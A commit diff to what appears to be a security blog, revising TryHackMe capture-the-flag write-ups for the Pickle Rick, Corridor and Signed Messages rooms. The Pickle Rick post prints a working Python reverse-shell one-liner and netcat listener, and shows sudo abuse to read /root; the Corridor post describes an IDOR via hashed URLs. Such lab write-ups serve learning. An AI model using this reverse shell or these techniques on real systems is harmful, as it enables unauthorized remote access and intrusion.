

Update: TryHackMe corridor, Pickle_Rick

diff --git a/_posts/2026-06-16-pickle-rick.md b/_posts/2026-06-16-pickle-rick.md
@@ -12,7 +12,7 @@ image:
 
 This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.  
 
-Deploy the lab machine on this task and explore the web application: MACHINE_IP
+Access TryHackMe lab here: [Pickle_Rick](https://tryhackme.com/room/picklerick)
 
 ## Enumeration
 
@@ -101,7 +101,12 @@ After logging in, we are redirected to `portal.php` with a command panel.
 
 In this specific challenge, the `cat` command does not work properly and it does not display the content of the files correctly and you get error message saying: **Command disabled to make it hard for future PICKLEEE RICCCKKKK**. Also, if I try to access other pages, I get another error message. So, there is no use of trying to access other pages. The only way to find the ingredients is to use the command panel.  
 
-In the command panel, we can execute some commands. Let's try to execute `ls` command to see the files in the current directory. There are several files, let's check the content of **Sup3rS3cretPickl3Ingred.txt** using `less Sup3rS3cretPickl3Ingred.txt` command. We found our first ingredient. There is another file named **clue.txt**. After reading it, I found the content: **Look around the file system for the other ingredient.**  
+In the command panel, we can execute some commands. Let's try to execute `ls` command to see the files in the current directory. 
+
+![List files](/assets/img/pickle-rick/File_list.png)
+
+There are several files, let's check the content of **Sup3rS3cretPickl3Ingred.txt** using `less Sup3rS3cretPickl3Ingred.txt` command. We found our first ingredient.  
+There is another file named **clue.txt**. After reading it, I found the content: **Look around the file system for the other ingredient.**  
 
 Now, run `sudo -l` to check the commands that can be used with current user. And here is the content:
 
@@ -109,18 +114,29 @@ Now, run `sudo -l` to check the commands that can be used with current user. And
 
 This is a very interesting finding. It means that we can run any command as root using sudo without providing a password. Now, we can use this privilege to find the second ingredient.
 
-After trying for few minutes, I found the path to the second ingredient. Run `less '/home/rick/second ingredients` to find the second ingredient. Since `sudo -l` revealed (ALL) NOPASSWD: ALL, I enumerated the **/root** directory and discovered the third ingredient.
+After few tries, I found the path to the second ingredient. Run `less '/home/rick/second ingredients'` to find the second ingredient. Don't forget to use quotes if there are spaces in the file name. If you are confused if certain file is actually a file or a directory, you can use `ls -l` command to check it. If it is a file, you will see a dash (-) at the beginning of the line. If it is a directory, you will see a d at the beginning of the line.  
+
+![Second ingredient](/assets/img/pickle-rick/2nd_ingredient.png)
+
+Since `sudo -l` revealed (ALL) NOPASSWD: ALL, I enumerated the **/root** directory and discovered the third ingredient from the file named **3rd.txt** using `sudo less /root/3rd.txt`.
+
+![Third ingredient](/assets/img/pickle-rick/3rd_ingredient.png)
 
 ## Another way to retrieve the flags
 
-There is another way to retrieve the ingredients without using command panel from the webpage. I checked if python3 is installed, so I used `which python3` to find this: `/usr/bin/python3`  
+There is another way to retrieve the ingredients without using command panel from the webpage. The method is to use remote shell directly from the terminal.    
 
-**Note**: PHP, Python, Bash, Perl, and other interpreters can all be used to establish reverse shells if they are available on the target system and I used Python. You are free to try any other method to get a reverse shell.  
+**Note**: PHP, Python, Bash, Perl, and other interpreters can all be used to establish reverse shells if they are available on the target system. You are free to try any other method to get a reverse shell.  
+
+I tried to use python and immediately checked if python3 is installed, so I used `which python3` to find this: `/usr/bin/python3`.  
 
 Run `nc -lvnp 1234` or any other port number you prefer to listen for incoming connections. Now, run the following command to get a reverse shell.  
 
-Use [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) site to get the python3 reverse shell command. Copy the command, replace the IP_address with your own IP address and preferred port number. The command that I used:  
-`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`.  
+Use [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) site to get the python3 reverse shell command. Copy the command, replace the IP_address with your own attacker_machine IP address and preferred port number. The command that I used is:  
+
+```python
+python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
+```  
 
 After executing the command, I got a reverse shell.  
 
@@ -133,6 +149,8 @@ $
 ```
 
 Now, the commands that are used in the command panel can be used in the reverse shell. Also, both `cat` and `less` commands can be used to read the content of files.  
+
+Since the commands that are used in terminal are similar to the commands that are used in the command panel, I just used direct commands to find the ingredients as I know the path of the ingredients.  
 
 Now, follow the below steps to find the ingredients.  
 **First ingredient**  

diff --git a/_posts/2026-05-11-corridor.md b/_posts/2026-05-11-corridor.md
@@ -12,7 +12,7 @@ You have found yourself in a strange corridor. Can you find your way back to whe
 
 In this challenge, you will explore potential IDOR vulnerabilities. Examine the URL endpoints you access as you navigate the website and note the hexadecimal values you find (they look an awful lot like a hash, don't they?). This could help you uncover website locations you were not expected to access.
 
-[TryHackMe corridor room](https://tryhackme.com/room/corridor)
+Access TryHackMe lab here: [Corridor](https://tryhackme.com/room/corridor)
 
 ## Reconnaissance
 
@@ -69,7 +69,9 @@ http://10.48.177.244/c51ce410c124a10e0db5e4b97fc2af39
 Each string contains 32 hexadecimal characters, which strongly resembles md5 hash. Now, the task is to find the value of tha hash. I used this [tool](
 https://10015.io/tools/md5-encrypt-decrypt) to find original values of the hashes.
 
-After computing the hashes, I found that each hash represents a number. Numbers from 1 through 13. Now I know that adding the hash value of a number after "`http://IP_address/`" in the URL gives me a hint to find the flag. Then I considered trying the values outside of these numbers range. Hashes of next consecutive numbers 14, 15 and 16 returned invalid pages but trying out the hash of '0' which is `cfcd208495d565ef66e7dff9f98764da`returned the flag. 
+After computing the hashes, I found that each hash represents a number. Numbers from 1 through 13. Now I know that adding the hash value of a number after "`http://IP_address/`" in the URL gives me a hint to find the flag. Then I considered trying the values outside of these numbers range. Hashes of next consecutive numbers 14, 15 and 16 returned invalid pages but trying out the hash of '0' which is `cfcd208495d565ef66e7dff9f98764da`returned the flag.  
+
+Submit the flag to complete the room.  
 
 ![Flag](/assets/img/Corridor/Corridor-flag.png)
 

diff --git a/_posts/2026-05-15-signed-messages.md b/_posts/2026-05-15-signed-messages.md
@@ -10,6 +10,8 @@ image:
 
 ![Instruction](/assets/img/signed_messages/Inst.png)
 
+Access TryHackMe lab here: [Signed messages](https://tryhackme.com/room/lafb2026e8)
+
 
 ## Reconnaissance and Enumeration
 